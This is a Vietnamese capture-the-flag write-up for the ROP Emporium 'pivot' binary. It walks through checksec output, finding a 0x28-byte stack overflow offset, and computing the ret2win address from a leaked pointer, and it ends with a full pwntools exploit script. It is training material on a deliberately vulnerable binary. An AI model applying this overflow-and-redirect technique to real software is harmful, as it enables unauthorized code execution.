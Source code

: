 # ROP_Emporium - pivot

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
pivot: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0e9fb878206e1858b042597fd36c51aa07497121, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'
```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit. Ở đây chỉ có 2 hàm thú vị:

Hàm main()

![main.png](images/main.png)

Và hàm pwnme()

![pwnme.png](images/pwnme.png)

# 2. Ý tưởng

Bài này leak cho ta địa chỉ của chuỗi đầu vào -> leak được libc từ đó kiếm được libc_base

# 3. Khai thác

Tại hàm pwnme cho chúng ta nhập vào 2 lần nhưng do leak được libc rồi nên chúng ta có thể nhập bỏ qua lần 1 và dùng kỹ thuật ret2win ở lần nhập thứ 2.

Ta cũng sẽ tìm offset tới rip bằng gdb như sau:

![offset.png](images/offset.png)

Vậy offset là 0x28 bytes.

Do bài này leak được địa chỉ nên ta sẽ dùng:

```
p.recvuntil(b"The Old Gods kindly bestow upon you a place to pivot: 0x")

leak = int(p.recv(12),16)

print("[+]LEAK:", hex(leak))
```

để leak địa chỉ và in ra màn hình.

- Dùng gdb để chạy chương trình và dùng **info functions** để xem các hàm chương trình có khi chạy ta phát hiện ra có hàm ret2win():

![win.png](images/win.png)

Ta tìm offset giữa địa chỉ leak được và địa chỉ hàm ret2win():

![offset2.png](images/offset2.png)

Như vậy địa chỉ hàm ret2win() = leak + 0x1e2b71

Full code:
```
from pwn import*

context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./pivot', checksec=False)

p = process("./pivot")

#gdb.attach(p, gdbscript='''
#b*pwnme+113
#c
#''')
adget = elf.sym['usefulGadgets']

p.recvuntil(b"The Old Gods kindly bestow upon you a place to pivot: 0x")
leak = int(p.recv(12),16)
print("[+]LEAK:", hex(leak))
win = leak + 0x1e2b71

payload = flat(
    cyclic(0x28),
    win
      )
p.sendlineafter(b"> ",payload)
p.sendlineafter(b"> ",payload)
p.interactive()

```

# 4. Lấy flag

![flag.png](images/flag.png)


